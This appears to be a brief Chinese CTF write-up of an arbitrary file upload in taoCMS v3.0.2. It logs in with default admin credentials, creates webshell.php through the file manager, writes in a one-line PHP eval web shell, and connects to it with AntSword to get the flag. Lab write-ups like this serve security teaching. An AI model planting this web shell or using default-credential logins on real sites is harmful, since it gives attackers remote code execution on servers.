








<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->



taoCMS v3.0.2任意文件上传


进入点击管理，F12查看源码，发现


默认账号密码，尝试登陆


文件管理处，新建webshell.php文件，


写入一句话木马

```
<?php @eval($_POST['t1ng']);?>
```

右键复制链接


蚁剑连接


拿到flag


